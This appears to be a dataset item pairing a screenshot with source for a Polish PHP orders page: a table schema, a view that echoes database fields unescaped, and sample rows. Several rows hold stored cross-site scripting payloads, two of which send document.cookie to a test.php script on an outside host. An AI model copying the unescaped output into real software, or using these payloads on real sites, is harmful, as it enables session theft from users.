
Screenshot of /orders.php (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `orders` (
  `ID` int(10) NOT NULL,
  `clientID` int(10) NOT NULL,
  `orderItem` text NOT NULL,
  `description` text NOT NULL
);

### orders.php (the view, shortened to what this page needs)
<?php
require_once "navbars.php";
if($_SESSION['usergroup'] == 1  )
{
    $nav = $adminNavbar;
}
else
{
    $nav = $clientNavbar;
}
?>
<!DOCTYPE HTML>
<html lang="pl">
<head>
    <link href="css/style.css" rel="stylesheet" type="text/css" />
    <link href="css/bootstrap.min.css" rel="stylesheet" type="text/css" />
</head>
<body>
<?php echo $nav; ?>
<?php
    require_once "connect.php";
    $conn = new mysqli($host, $dbUser, $dbPassword, $dbName);
    if($conn->connect_errno!=0)
    {
        throw new Exception(mysqli_connect_errno());
    }
    else
    {
        $sql = "SELECT * FROM orders";
        $result = $conn->query($sql);
        echo '
        <table class="table table-hover">
            <thead>
                <tr>
                <th scope="col">ID</th>
                <th scope="col">ID Klienta</th>
                <th scope="col">Usługa</th>
                <th scope="col">Opis zamówienia</th>
                <th scope="col">Usuń zamówienie</th>
                </tr>
            </thead>
            <tbody>';
        while( $row = $result->fetch_assoc() )
         {
             echo '<tr class="table-primary">
                    <th scope="row">'.$row['ID'].'</th>
                    <td>'.$row['clientID'].'</td>
                    <td>'.$row['orderItem'].'</td>
                    <td>'.$row['description'].'</td>
                    <td><form action="removeOrder.php" method="post"><input type="text" class="form-control hide" name="orderRemove" value='.$row['ID'].'><input type="submit" class="btn btn-outline-danger" value="USUŃ"/></form></td>
                    </tr>
                    ';
         }
         echo'
            </tbody>
        </table> ';
    }
    ?>
</body>
</html>

### css/style.css (style rules this page uses)
body { background-color: black; }

### rows the page displays
orders: ID "18", clientID "29", orderItem "Usluga 2", description "wyngiel"
orders: ID "36", clientID "28", orderItem "Usluga 1", description "<script>window.location.replace(\"http://www.w3schools.com\");</script>"
orders: ID "37", clientID "28", orderItem "Usluga 1", description "<script>window.location.href = 'http://orfi.uwm.edu.pl/~s130719/test.php?cookie='+document.cookie</script>"
orders: ID "40", clientID "28", orderItem "Usluga 1", description "aa"
orders: ID "46", clientID "28", orderItem "Usluga 1", description "<script>window.location.replace(\"/~s130719/test.php?cookie=\"+document.cookie);</script>"
